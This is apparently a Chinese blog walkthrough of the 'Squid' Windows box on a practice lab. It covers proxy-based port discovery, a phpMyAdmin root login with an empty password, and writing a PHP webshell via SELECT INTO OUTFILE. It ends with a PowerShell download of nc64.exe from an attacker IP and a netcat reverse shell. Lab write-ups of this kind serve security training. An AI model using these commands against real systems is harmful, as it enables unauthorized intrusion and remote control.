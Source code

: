 ```yaml
---
title: Proving Grounds Practice-Squid-Windows
date: 2025-6-26 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250626101043637](./Squid-Windows/image-20250626101043637.png)

## 3128端口-Squid

![image-20250626104757604](./Squid-Windows/image-20250626104757604.png)

```
python3 spose.py --proxy http://192.168.239.189:3128 --target 192.168.239.189
```

使用 HTTP 代理方法检测 squid 代理后的开放端口

![image-20250626105123822](./Squid-Windows/image-20250626105123822.png)

方法8080端口和3306端口需要通过squid的代理，需要配置一层上层代理

![image-20250626105511926](./Squid-Windows/image-20250626105511926.png)

然后就可以正常访问到页面了

![image-20250626105521604](./Squid-Windows/image-20250626105521604.png)

## squid代理的8080端口

8080端口主页面是默认页面，通过squid的代理去扫8080端口的目录，得到phpmyadmin页面的phpsysinfo

![image-20250626110505511](./Squid-Windows/image-20250626110505511.png)

`phpmyadmin`是默认密码，用户名为`root`，密码为空

![image-20250626110656451](./Squid-Windows/image-20250626110656451.png)

# getshell

想要通过写文件getshell，当前数据库用户就得拥有写权限，可以通过该命令查看，如果secure_file_priv如果非空，则只能在对应的目录下读文件，如果是空即可在其他目录写。

```
show variables like '%secure%';
```

当前情况是空，可以在任意文件夹下，现在就需要知道web服务的绝对路径

查看当前日志文件目录，mysql服务实在wamp下的，所以猜测web服务是在wamp/www下

![image-20250626113504415](./Squid-Windows/image-20250626113504415.png)

```
select '<?php phpinfo();?>' into outfile "C:\\wamp\\www\\shell1.php"
```

写入之后就可以成功访问到shell1.php

![image-20250626113805273](./Squid-Windows/image-20250626113805273.png)

![image-20250626113825315](./Squid-Windows/image-20250626113825315.png)

然后尝试写入后门

![image-20250626114116784](./Squid-Windows/image-20250626114116784.png)

可以命令执行，并且直接是system权限，最后反弹shell即可

![image-20250626114206814](./Squid-Windows/image-20250626114206814.png)

上传nc，并且使用nc反弹shell

```
powershell wget http://192.168.45.167:80/nc64.exe -outfile nc.exe

C:\wamp\www\nc.exe -e cmd 192.168.45.167 80
```

![image-20250626114842285](./Squid-Windows/image-20250626114842285.png)

想偷懒的话可以直接读取proof.txt，查看的时候需要点击选项其中的显示BLOG内容

![image-20250626115223761](./Squid-Windows/image-20250626115223761.png)